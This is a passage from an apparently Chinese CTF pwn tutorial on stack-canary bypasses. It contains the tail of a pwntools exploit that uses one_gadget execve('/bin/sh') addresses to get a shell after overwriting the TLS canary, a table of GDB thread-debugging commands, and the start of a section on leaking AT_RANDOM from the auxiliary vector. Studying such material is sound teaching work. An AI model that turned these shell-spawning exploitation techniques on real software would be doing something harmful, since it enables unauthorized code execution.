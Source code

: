 ```python
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
root@4de10445acf0:~/Canary_User_Mode/ctf#
'''
one_gadget_addr_list=[0x4f3d5,0x4f432,0x10a41c]
#gdb.attach(proc.pidof(p)[0],"thread 2\nset scheduler-locking on") 
p.send(p64(libc_base+one_gadget_addr_list[2]))
p.interactive()
```

注意：在调试时覆盖TLS后程序主线程会崩溃，切换到新线程后会跳回主线程，可以使用set scheduler-locking on来锁定到2线程。



### 多线程调试命令
| | |
| --- | --- |
| info threads | 显示当前可调试的所有线程，每个线程会有一个GDB为其分配的ID，后面操作线程的时候会用到这个ID。 前面有*的是当前调试的线程 |
| thread ID(1,2,3…) | 切换当前调试的线程为指定ID的线程 |
| break thread_test.c:123 thread all（例：在相应函数的位置设置断点break pthread_run1） | 在所有线程中相应的行上设置断点 |
| thread apply ID1 ID2 command | 让一个或者多个线程执行GDB命令command |
| thread apply all command | 让所有被调试线程执行GDB命令command |
| set scheduler-locking 选项 command | 设置线程是以什么方式来执行命令 |
| set scheduler-locking off | 不锁定任何线程，也就是所有线程都执行，这是默认值 |
| set scheduler-locking on | 只有当前被调试程序会执行 |
| set scheduler-locking on step | 在单步的时候，除了next过一个函数的情况(熟悉情况的人可能知道，这其实是一个设置断点然后continue的行为)以外，只有当前线程会执行 |


## Leak AUXV
### 解题
> [https://github.com/pcy190/learn_pwn/tree/master/canary/2017-TCTF-Final-pwn-upxof](https://github.com/pcy190/learn_pwn/tree/master/canary/2017-TCTF-Final-pwn-upxof)
>

如果程序不是多线程的话就不好修改TLS结构体中的Canary了，但是我们可以通过泄露栈上AT_RANDOM的值来获取Canary。

> sudo apt install upx-ucl
>
